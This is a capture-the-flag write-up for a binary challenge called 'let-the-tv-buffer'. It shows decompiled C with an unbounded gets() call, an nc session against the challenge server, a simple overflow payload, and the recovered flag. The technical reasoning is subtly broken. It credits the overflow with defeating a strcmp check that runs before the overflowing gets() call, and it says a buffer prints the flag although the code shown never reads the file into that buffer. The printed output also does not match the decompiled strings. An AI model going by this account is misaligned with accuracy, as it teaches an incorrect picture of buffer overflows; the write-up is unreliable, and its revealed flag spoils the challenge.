 Challenge Description: 

The TV is supposed to be buffering. But it isn't doing that now. Strange.
Author: omelette_keychain

File(s) given: let-the-tv-buffer (ELF file)

1. Analyse the file with Ghidra. main() shows this:

    ```int main(void) {
        char local_68[70];
        char local_22[10];
        FILE *local_18;
        char *local_10;

        local_10 = "-3735928559";
        puts("The TV usually keeps buffering. It isn't doing that now for some reason. I dunno why :(");
        puts("I need to show my cool TV fixing skills for the upcoming science fair.");
        puts("I wonder what I can do to put it back to how it originally was... Any ideas? \nReply >> ");
        gets(local_22);

        if (strcmp(local_22, local_10) == 0) {
            puts("Hmm. It doesn't work. Nice try though! :)");
        } else {
            local_18 = fopen("flag.txt", "r");
            puts("The TV is back to buffering. Thanks!");
            puts("Wait. It is showing some sorta secret code...");

            if (local_18 == NULL) {
                printf("Error in opening the flag file. Flag file might be missing :(\n");
            }

            gets(local_68 + 0x3b); // potential buffer overflow vulnerability
            puts(local_68);
        }

        exit(0);
    }```

2. We can see this suspicious line ```gets(local_68 + 0x3b);```
local_68 is a buffer with 70 bytes, and 0x3b is 59 in decimal. So ```gets(local_68 + 0x3b)``` starts writing at byte 59, leaving only 11 bytes until the end of the buffer.

However, gets() reads an entire line of user input without any size limit, meaning if the user enters more than 11 bytes, it will overwrite memory beyond local_68. So we can tell that this challenge is about **buffer overflow**!

We also see that the condition for printing the flag is dependent on local_10 and local_22. local_10 already has a fixed value, but local_22 is just a buffer with 10 bytes. Hence we just need to make the strcmp() fail by corrupting local_22 to get the flag.

3. Since local_22 is just after local_68 in the main() function above, this means that we just need a payload that is more than 11 bytes long (11 to fill up local_68, and the rest to corrupt local_22). 
```└─$ nc 43.205.113.100 8370
    The TV usually keeps buffering. It isn't doing that now for some reason. I dunno why.
    I need to show my cool TV fixing skills for the upcoming science fair!
    I wonder what i can do to put it back to how it originally was... Any ideas? 
    Reply >> 
    AAAAAAAAAABBBBBBBB
    The TV is back to buffering! Thanks!
    ...wait. It is showing some sorta secret code.
    shaktictf{@nd_th@t's_h0w_th3_buff3r_0v3rfl0w3d_tv_c00k3d!}```
